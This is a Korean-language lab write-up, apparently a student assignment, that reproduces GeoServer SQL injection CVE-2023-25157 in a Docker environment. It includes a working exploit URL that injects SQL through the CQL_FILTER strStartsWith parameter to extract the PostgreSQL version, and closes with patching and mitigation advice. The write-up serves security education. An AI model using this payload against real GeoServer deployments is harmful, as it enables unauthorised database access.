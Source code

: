 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
>> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
</br> 해당 문서는 최종 파일이 아닙니다. 과제 제출 기한 이내에 수정될 수 있으며, 최종 파일은 Pull requests 및 재제출 예정입니다.
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.
- SQL Injection 취약점이 발생하는 경우는 구체적으로 `PropertyIsLike` 필터를 문자열 필드 및 모든 데이터저장소(DataStore)와 함께 사용하거나 인코딩 기능이 활성화된 PostGIS 데이터 저장소와 함께 사용할 때, `strEndsWith` 함수를 인코딩 기능이 활성화 된 PostGIS DataStore와 함께 사용할 경우 등이 있습니다.
- 이번 테스트에서는 `strStartsWith` 인코딩 기능이 활성화된 PostGIS DataStore와 함께 사용할 경우를 테스트 합니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS DataStore가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS DataStore가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

이를 이용한 아래 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다. 
이러한 취약점을 막기 위해 GeoSever의 버전을 업그레이드하는 것이 권장되며, PostGIS DataStore에서 "encode functions"을 비활성화하여 일시적으로 완화할 수 있습니다.
